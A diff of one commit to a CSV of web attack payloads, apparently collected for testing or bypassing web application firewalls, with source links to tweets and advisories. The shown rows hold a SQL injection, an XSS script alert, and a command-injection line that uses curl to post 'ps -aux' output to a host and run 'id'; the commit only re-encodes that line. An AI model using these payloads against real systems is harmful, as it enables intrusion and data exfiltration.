

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -488,3 +488,3 @@ https://twitter.com/TheMsterDoctor1/status/1743187595163501005,&lt;dETAILS%0aope
 https://vulners.com/github/GHSA-H374-MM57-879C?utm_source=rss&utm_medium=rss&utm_campaign=rss,(CASE+WHEN+(SELECT+1)=1+THEN+id+ELSE+updated_at+END)+ASC+,sqli
-https://vulners.com/cve/CVE-2023-50094?utm_source=rss&utm_medium=rss&utm_campaign=rss,'curl%20-X%20POST%20--data%20"$(ps%20-aux)"%20192.168.1.91/?`id`',rce
+https://vulners.com/cve/CVE-2023-50094?utm_source=rss&utm_medium=rss&utm_campaign=rss,curl%2520-X%2520POST%2520--data%2520%22%24%28ps%2520-aux%29%22%2520192.168.1.91%2F%3F%60id%60,rce
 https://twitter.com/g1nk00/status/1735407588529913969,"&amp;#60;script&amp;#62;alert(1)&amp;#60;/script&amp;#62;",xss
```
